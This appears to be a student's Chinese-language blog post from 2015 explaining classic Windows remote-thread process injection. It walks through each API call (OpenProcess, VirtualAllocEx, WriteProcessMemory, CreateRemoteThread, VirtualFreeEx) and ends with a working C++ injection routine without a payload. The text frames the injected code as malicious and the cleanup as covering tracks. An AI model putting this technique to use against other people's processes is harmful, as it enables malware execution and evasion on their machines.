 ```yaml
---
title: Windows下如何进行进程注入
date: 2015-2-28 15:53
comments: true
tags:
	- notes
---
```


上学期学了有关 Windows 程序底层方面的知识，学习到病毒的基本工作原理。好记性不如烂笔头，学完之余还是写点东西出来吧～
不过我也只是抛砖引玉，详细知识还是得自己多多钻研～

## 首先打开进程

首先使用 Win 系统的[OpenProcess](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms684320(v=vs.85).aspx>)API 打开所要注入的进程。
使用参数是进程的 PID，可以使用任务管理器查看进程的 PID，打开成功之后返回程序的句柄。

## 开辟内存空间

Win 系统也提供了开辟内存空间的[VirtualAllocEx](<https://msdn.microsoft.com/en-us/library/windows/desktop/aa366890(v=vs.85).aspx>)API。
传入的参数包括进程句柄，开辟起始地址，开辟空间的大小，分配的数据类型，分配空间的权限。例如： `pRemoteCode = (PBYTE) VirtualAllocEx(hProcess, 0, dwSizeOfCode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);`

## 写入恶意代码

使用 Win 系统的[WriteProcessMemory](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms681674(v=vs.85).aspx>)API 向新开辟的内存空间写入数据。注意这里写入的是二进制数据，要考虑到各种 API 函数的寻址问题。

## 执行注入的代码

微软照样还是提供了相关的[CreateRemoteThread](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms682437(v=vs.85).aspx>)API，我们注意最后一个参数是输出而不是输入。

## 获取执行的结果

如果要获取执行的结果，首先我们得等待线程的执行完成，使用[WaitForSingleObject](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx>)API.例： `WaitForSingleObject(hThread, INFINITE);`
然后再使用[GetExitCodeThread](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms683190(v=vs.85).aspx>)API，得到返回的结果。

## 释放开辟的空间

干了坏事得不留痕迹才行，回收自己开辟的空间，使用[VirtualFreeEx](<https://msdn.microsoft.com/en-us/library/windows/desktop/aa366894(v=vs.85).aspx>)API.

## 关闭打开的进程

打开的进程也得关闭，使用[CloseHandle](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms724211(v=vs.85).aspx>)API.

代码示例：

```c++
hProcess = OpenProcess(PROCESS_CREATE_THREAD
		| PROCESS_QUERY_INFORMATION
		| PROCESS_VM_OPERATION
		| PROCESS_VM_WRITE
		| PROCESS_VM_READ,
		FALSE, PID);

if (hProcess == NULL) {
		printf("failed.\n");
		return -1;
}
printf("ok.\n");

printf("[I]: Allocating remote memory with size of 0x%08x ......",
		dwSizeOfCode);

pCodeRemote = (PBYTE) VirtualAllocEx(hProcess,
				0,
				dwSizeOfCode,
				MEM_COMMIT,
				PAGE_EXECUTE_READWRITE);
if (pCodeRemote == NULL) {
		printf("failed.\n");
		CloseHandle(hProcess);
		return -1;
}
printf("ok at 0x%08x.\n", pCodeRemote);

do_link_before_inj(pCodeRemote);

printf("[I]: Writing code ......");
if (WriteProcessMemory(hProcess,
				pCodeRemote,
				pCode,
				dwSizeOfCode,
				&dwNumBytesXferred) == 0) {
		printf("failed.\n");
		VirtualFreeEx(hProcess, pCodeRemote,
						dwSizeOfCode, MEM_RELEASE);
		CloseHandle(hProcess);
		return -1;
};
printf("ok (%d bytes were written).\n", dwNumBytesXferred);

printf("[I]: Creating a remote thread ......");
hThread = CreateRemoteThread(hProcess, NULL, 0,
				(LPTHREAD_START_ROUTINE) pCodeRemote,
				pCodeRemote, 0 , &dwThreadId);
if (hThread == 0) {
		printf("failed.\n");
		if ( pCodeRemote != 0 )
				VirtualFreeEx(hProcess, pCodeRemote, 0, MEM_RELEASE);
		if ( hThread != 0 )
				CloseHandle(hThread);
		return -1;
}
printf("ok.\n");

printf("[I]: Waiting the remote thread ......");
WaitForSingleObject(hThread, INFINITE);
GetExitCodeThread(hThread, (PDWORD) &exitcode);
printf("exited with 0x%08X\n", exitcode);

VirtualFreeEx(hProcess, pCodeRemote, 0, MEM_RELEASE);
CloseHandle(hProcess);
```
